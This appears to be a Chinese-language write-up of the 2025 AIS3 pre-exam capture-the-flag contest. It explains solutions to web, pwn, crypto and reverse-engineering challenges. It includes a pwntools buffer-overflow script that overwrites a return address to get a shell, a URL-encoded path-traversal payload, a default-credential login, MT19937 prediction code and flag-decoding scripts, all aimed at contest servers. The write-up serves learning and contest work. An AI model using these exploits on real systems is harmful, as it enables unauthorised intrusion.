# 2025 ais3 pre-exam write-up

result:

這次解的題目最後全變 100 分 QAQ

題目都忘記截圖只能看解法猜題目 ╯︿╰ 

## login screen 1

於 login page 嘗試弱密碼 admin/admin 成功登入
觀察 dockr-compose.yml

發現 db 可以訪問
下載 db 找到 2fa code

成功登入取得 flag

## tomorin db

直接進入 /flag 會被 redirect

將`/` URL encode 成功 bypass，進入
`chals1.ais3.org:30000/..%2fflag`
取得 flag

## Welcome to the World of Ave Mujica

- 動態分析發現可以 burrfer overflow
- 丟進 ida 發現 0x401256 有一個 shell



- 使用 cyclic 計算 offset
將 return address 覆蓋為 0x4012D6 取得 shell

``` python
import pwn

host = "chals1.ais3.org"
port = 60122
conn = pwn.remote(host, port)
# conn = pwn.gdb.debug("./chal", env={"LD_PRELOAD": "./libc.so.6"})

conn.recvuntil(b'?')
conn.sendline(b'yes')
conn.recvuntil(b': ')
conn.sendline(b'-1')
conn.recvuntil(b': ')

g = pwn.cyclic_gen()
conn.sendline(g.get(168) + pwn.p64(0x4012D6))
```

## Raman CTF

掃描發票上 qrcode 將發票號碼填入發票 app 取得發票資訊，再使用 google map 搜尋地址取得 flag




## AIS3 Tiny Server - Web / Misc

題目提到 root directory 嘗試進入 chals1.ais3.org:20616//
成功 LFI 訪問根目錄取得 flag

取得flag

## Welcome

沒辦法直接複製，直接打，懶得找其他方法。


## Stream

可以暴力遍歷 a 檢查 b 是否為完全平方數得到每輪使用的隨機數，因為 getrandbits() 使用 mt19937 ，只要取得 634*32bits 的已知隨機數可以預測後續生成之隨機數。

```python!
from random import getrandbits
from hashlib import sha512
import gmpy2
from pyrandcracker import RandCracker


def rev(a: bytes, b: int):
    return int.from_bytes(a) ^ b


craker = RandCracker()

randbyte = []

for i in l:
    for j in range(256):
        r = rev(sha512(j.to_bytes()).digest(), i)
        if gmpy2.is_square(r):
            craker.submit(gmpy2.isqrt(r), 256)
craker.check()
        
print((l[80]^craker.rnd.getrandbits(256)**2).to_bytes(32, 'big'))
```
執行腳本取得 flag


## AIS3 Tiny Server - Reverse

丟進 IDA 可以看到 `sub_1E20()` 這個 function 會檢查 flag




撰寫腳本還原 flag
```python

import struct

def extract_flag():
    encrypted_data = [
        1480073267, 
        1197221906, 
        254628393,  
        920154,     
        1343445007, 
        874076697,  
        1127428440, 
        1510228243, 
        743978009,  
        54940467,   
        1246382110  
    ]
    

    encrypted_bytes = []
    for num in encrypted_data:
        bytes_from_int = struct.pack('<I', num)
        encrypted_bytes.extend(bytes_from_int)
    
    # The XOR key from v7
    key = b"rikki_l0v3"
    

    
    encrypted_bytes.append(20) 
    
    decrypted = bytearray(45)  
    
    v2 = 51 
    v3 = 114
    
    for i in range(45):
        decrypted[i] = v2 ^ v3
        
        if i + 1 < 45:
            v2 = encrypted_bytes[i + 1]
            v3 = key[(i + 1) % len(key)] 

    flag = decrypted.decode('ascii', errors='ignore').rstrip('\x00')
    return flag

if __name__ == "__main__":
    flag = extract_flag()
    print(f"flag: {flag}")
```
取得flag


## A simple snake game

丟 IDA 逆向找到有一個檢查分數和關卡的地方

patch 成 jg 跳過檢查

進入遊戲取得 flag


## web flag checker

從 source 可以看到 wasm
有一個函式叫 flag checker

丟給 claude 幫忙 reverse 並撰寫腳本

```python!
import struct

def ror64(value, shift):
    """64-bit right rotation (inverse of left rotation)"""
    value &= 0xFFFFFFFFFFFFFFFF
    shift &= 63
    return ((value >> shift) | (value << (64 - shift))) & 0xFFFFFFFFFFFFFFFF


def solve_flag_properly():
    expected_encrypted = [
        7577352992956835434,    # Chunk 0: "AIS3{W4S" with ROR 45
        7148661717033493303,    # Chunk 1: "M_R3v3rs" with ROR 28  
        (-7081446828746089091) & 0xFFFFFFFFFFFFFFFF,  # Chunk 2: needs brute force
        (-7479441386887439825) & 0xFFFFFFFFFFFFFFFF,  # Chunk 3: needs brute force
        8046961146294847270     # Chunk 4: "39229dd}" with ROR 61
    ]
    for i in range (5):
        print(f"\n--- Finding Chunk {i} ---")
        encrypted2 = expected_encrypted[i]
        best_chunk2_candidates = []

        for key in range(64):
            decrypted = ror64(encrypted2, key)
            try:
                bytes_data = struct.pack('<Q', decrypted)
                text = bytes_data.decode('ascii', errors='replace')
                printable_count = sum(1 for c in text if c.isprintable() and c != '�')

                if printable_count >= 6:
                    best_chunk2_candidates.append((key, bytes_data, text, printable_count))
            except:
                continue
        for key, data, text, score in best_chunk2_candidates[:10]:
            print(f"  Key {key:2d}: {text}")

    
  
if __name__ == "__main__":

    solve_flag_properly()
    

```



組合 flag 得到 `AIS3{W4SM_R3v3rsing_w17h_g0_4pp_39229dd}`

---

